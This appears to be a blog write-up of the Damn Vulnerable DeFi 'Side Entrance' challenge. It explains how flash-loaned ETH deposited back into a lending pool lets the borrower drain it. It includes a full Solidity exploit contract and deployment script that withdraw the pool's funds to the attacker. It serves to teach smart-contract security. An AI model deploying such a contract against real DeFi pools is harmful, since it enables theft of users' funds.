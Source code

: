 ```yaml
---
layout: post
date:   2022-08-09 12:59:00 -0500
categories: DeFi flashloan
title: Damn Vulnerable DeFi - Side Entrance
---
```


## Analysis

Deposit routine simply keeps a mapping of user and transferred ETH to the pool. `withdraw` allows the user to withdraw all their funds at once. 
This smart contract does not use Re-entrancy guard. The objective is to drain the pool of ETH. Flashloan user needs to implement the `execute` function.

## Problem

There is a sequence of calls that makes the funds to become owned by the receiver. 

## Solution

```js
        // deploy attacker contract
        const ExploitSideEntranceFactory = await ethers.getContractFactory("ExploitSideEntrance", attacker);
        const ExploitSideEntrance = await ExploitSideEntranceFactory.deploy(this.pool.address);

        // connect to the exploit contract
        ExploitSideEntrance.connect(attacker).exploit();

```
ExploitSideEntrance Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../side-entrance/SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "hardhat/console.sol";


contract ExploitSideEntrance {
    using Address for address;
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    SideEntranceLenderPool private immutable pool;
    address private immutable pool_address;

    // attacker
    address private immutable owner;

    constructor(address payable poolAddress) {
        pool_address = poolAddress;
        pool = SideEntranceLenderPool(poolAddress);
        owner = msg.sender;
    }

    // arbitrary function
    //https://swcregistry.io/docs/SWC-104
    function execute() external payable {
        // make a deposit with the loaned amount
        pool_address.functionCallWithValue(
            abi.encodeWithSignature("deposit()"),
            msg.value
        );

        // which will also satisfy repaying the loan
    }

    function exploit() public payable {
        // this will call the execute routine above
        pool.flashLoan((pool_address.balance));

        // withdraw all the funds
        pool.withdraw();
    }

    receive () external payable {
        uint256 amountToWithdraw = address(this).balance;
        payable(owner).sendValue(amountToWithdraw);
    }
}
```

Explanation

The `flashLoan` function checks the balance of the contract after the loan however, users can contribute to the pool and withdraw contributions.

A user can contribute to the pool using borrowed funds. Borrowed funds now become owned by the user. 

This does not violate the pool balance. A user may borrow all funds in the pool. If all the funds in the pool are borrowed and deposited into the pool, the pool balance will be unchanged however all funds now belong to the borrower.

The user can later call `withdraw` to withdraw the funds thereby bypassing `flashLoan` and draining the pool.

Finally the funds can be transferred to the attacker account.